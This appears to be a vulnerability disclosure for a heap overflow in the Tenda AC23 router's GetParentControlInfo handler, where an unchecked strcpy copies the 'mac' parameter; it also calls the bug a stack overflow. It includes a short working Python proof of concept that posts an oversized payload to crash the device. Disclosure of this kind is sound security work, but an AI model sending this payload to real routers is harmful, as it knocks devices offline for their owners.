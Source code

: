 Shenzhen Jixiang Tengda Technology Co., Ltd.-Tenda AC23 GetParentControlInfo heap overflow vulnerability

In the function GetParentControlInfo, the content obtained by the program from the parameter "mac" is passed to the heap created by the program, and then the value of the mac is copied directly into the heap s via the strcpy function. There is no size checking, so there is a stack overflow vulnerability. Attackers can easily perform denial-of-service attacks using well-crafted overflow data.

<img width="415" height="329" alt="image" src="https://github.com/user-attachments/assets/014ae279-08c8-42cb-8610-997fdbeabcee" />


POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/GetParentControlInfo"

cookie = {"Cookie":"password=12345"}
data = {"mac": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```

